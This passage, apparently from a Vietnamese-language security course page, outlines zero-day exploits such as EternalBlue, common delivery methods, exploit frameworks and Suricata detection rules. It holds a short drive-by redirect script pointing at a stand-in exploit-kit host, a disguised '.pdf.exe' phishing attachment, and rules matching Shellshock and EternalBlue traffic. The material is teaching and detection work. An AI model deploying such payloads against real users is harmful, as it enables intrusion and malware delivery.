 
**5. Zero-day Exploits:**
Exploits cho vulnerabilities chưa được patch.

**Example: EternalBlue (MS17-010):**
```
SMBv1 vulnerability
→ Buffer overflow trong srv.sys driver
→ Remote code execution
→ Được sử dụng bởi WannaCry, NotPetya
```

---

**Exploit delivery methods:**

**1. Phishing email:**
```
Subject: Invoice #12345
Attachment: invoice.pdf.exe
```

**2. Drive-by download:**
```html
<script>
  window.location = "http://exploit-kit.com/rig?target=" +
                    navigator.userAgent;
</script>
```

**3. Watering hole:**
Compromise website mà target thường truy cập.

**4. Supply chain attack:**
Inject malicious code vào software updates hoặc dependencies.

---

**Exploit frameworks:**
- **Metasploit:** Framework phổ biến nhất
- **Exploit DB:** Database các exploits công khai
- **Canvas, Core Impact:** Commercial frameworks

---

**Suricata detect Exploits:**

```
# Shellshock
alert http any any -> any any (
  msg:"Shellshock Exploit Attempt";
  flow:established,to_server;
  content:"() {"; http_header;
  content:"/bin/"; http_header;
  classtype:web-application-attack;
)

# EternalBlue
alert smb any any -> any any (
  msg:"EternalBlue Exploit Attempt";
  flow:to_server,established;
  content:|ff|SMB|2b|;
  content:"|00 00 00 10 00 00 00 00|";
  classtype:attempted-admin;
)

# Generic RCE via User-Agent
alert http any any -> any any (
  msg:"Suspicious User-Agent RCE";
  flow:established,to_server;
```
